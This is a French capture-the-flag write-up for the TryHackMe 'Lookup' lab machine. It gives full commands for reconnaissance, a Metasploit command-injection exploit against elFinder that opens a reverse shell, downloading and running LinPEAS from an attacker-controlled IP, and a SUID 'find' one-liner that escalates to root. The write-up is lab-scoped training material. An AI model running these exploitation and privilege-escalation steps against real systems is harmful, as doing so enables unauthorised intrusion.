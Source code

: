 # **TryHackMe - Lookup Write-Up**  
> **Difficulté** : Facile  
> **OS** : Linux  
> **Auteur** : HelloLou  
> **Date** : 30/01/2025  

---

## **🖥️ 1. Reconnaissance**  
### 🔍 **1️⃣ Scan Nmap**
On commence par scanner la machine avec **Nmap** pour voir les ports ouverts :  
```bash
nmap -sC -sV -oN scan.txt 10.10.16.70
```
🔹 **Explication** :  
- `-sC` : Lance des scripts de détection par défaut.  
- `-sV` : Identifie les versions des services.  
- `-oN scan.txt` : Sauvegarde les résultats dans un fichier.

**Résultat :**
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (Ubuntu)
80/tcp   open  http     Apache httpd 2.4.29
```
👉 On remarque que **SSH (22)** et **HTTP (80)** sont ouverts.  

---

## **🌐 2. Enumeration Web**  
### 🔹 **Accès au site web**
On ouvre **http://lookup.thm/** dans le navigateur.  
Le site affiche une page basique sans information importante.

### 🔹 **Fuzzing des sous-domaines avec Gobuster**
On va chercher des **sous-domaines cachés** avec **Gobuster** :
```bash
gobuster vhost -u http://lookup.thm/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```
**Résultat :**
```
Found: files.lookup.thm (Status: 200)
```
👉 Un sous-domaine **files.lookup.thm** existe !  

### 🔹 **Ajout dans `/etc/hosts`**
On ajoute ce sous-domaine pour pouvoir y accéder :
```bash
sudo nano /etc/hosts
```
Ajoute cette ligne :
```
10.10.16.70  lookup.thm files.lookup.thm
```

### 🔹 **Accès à `files.lookup.thm`**
En visitant **http://files.lookup.thm/**, on voit une **interface de gestion de fichiers** (elFinder).  
👉 **elFinder est connu pour avoir des vulnérabilités !**

---

## **🚀 3. Exploitation - Command Injection**
### 🔹 **Recherche d'une Exploitation Possible**
On cherche sur Google :  
**"elFinder PHP Connector exploit"**  
➡️ On trouve que la version de **elFinder** utilisée ici est vulnérable à une **command injection** via `exiftran`.

### 🔹 **Exploitation avec Metasploit**
On utilise **Metasploit** pour automatiser l'exploitation :
```bash
msfconsole
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOSTS 10.10.16.70 (VPN tryhackme)
set TARGETURI /php/connector.php
set LHOST Ici Ton IP Tun0 (VPN)
set LPORT 4444
run
```
💥 **Shell obtenu !**  (n'oubliez pas de l'activer si vous êtes sur meterpreter, en tapant: shell)
```
meterpreter > whoami
www-data
```
👉 On a un shell avec l’utilisateur **www-data**.

---

## **🛠️ 4. Escalade de Privilèges**
On veut passer de **www-data** à **root**.  
On lance **LinPEAS** pour détecter des failles :
```bash
wget http://10.11.125.223:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
🔹 **LinPEAS détecte un fichier SUID suspect :**
```
/usr/bin/find has SUID bit set
```
On regarde dans **GTFOBins** si `find` peut être exploité pour devenir root :
```bash
find . -exec /bin/sh -p \; -quit
```
💥 **Root obtenu !**
```bash
whoami
root
```

---

## **🏆 5. Capture du Flag**
On récupère les flags :  

🔹 **User flag** :
```bash
cat /home/user/user.txt
```
🔹 **Root flag** :
```bash
cat /root/root.txt
```

---

## **🎯 Conclusion**
✅ **Méthodologie utilisée :**
1. **Nmap** → Ports ouverts.
2. **Gobuster** → Trouver un sous-domaine caché.
3. **Exploit elFinder** → Command Injection avec Metasploit.
4. **LinPEAS** → Trouver un binaire SUID exploitable.
5. **GTFOBins** → Élever les privilèges et devenir root.

💡 **Leçon apprise :**
- **Ne jamais ignorer les sous-domaines** !
- **Toujours tester les applications web pour des exploits connus.**
- **LinPEAS + GTFOBins = Escalade de privilèges efficace !**

---

